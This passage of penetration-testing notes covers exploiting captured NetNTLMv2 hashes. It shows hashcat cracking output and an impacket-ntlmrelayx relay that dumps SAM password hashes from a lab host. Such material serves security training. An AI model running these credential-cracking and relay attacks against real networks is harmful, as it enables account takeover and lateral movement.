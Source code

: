 Captured hashes are stored in Responder's logs directory (commonly `/usr/share/responder/logs/`).

> If you notice multiple hashes for one acc this is because NTLMv2 utilises both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.

Two common options after capturing NetNTLM responses:

1. **Crack the hash (offline)** using a cracking tool such as `hashcat` to attempt to recover the password from the captured NetNTLM challenge/response.

{% code overflow="wrap" %}
```shell
$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

ADMINISTRATOR::WIN-487IMQOIA8E:997...<SNIP>...000:P@ssword
```
{% endcode %}

2. **Relay the authentication (live)** - forward the captured authentication attempt to another target that will accept NTLM authentication (NTLM relay). Tools like `impacket-ntlmrelayx` can automate this. If using Responder to capture but relaying with impacket, disable Responder's SMB listener so it does not interfere with relaying.

```bash
# Disable Responder's SMB listener
$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

&#x20;`impacket-ntlmrelayx` will dump the SAM by default, but commands  can be executed via the `-c` flag:

{% code overflow="wrap" %}
```shell
# Relay the credentials to another host
$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
<SNIP>

[*] Servers started, waiting for connections

[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, attacking target smb://10.10.110.146
[*] Authenticating against smb://10.10.110.146 as /ADMINISTRATOR SUCCEED

<SNIP>

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```
{% endcode %}
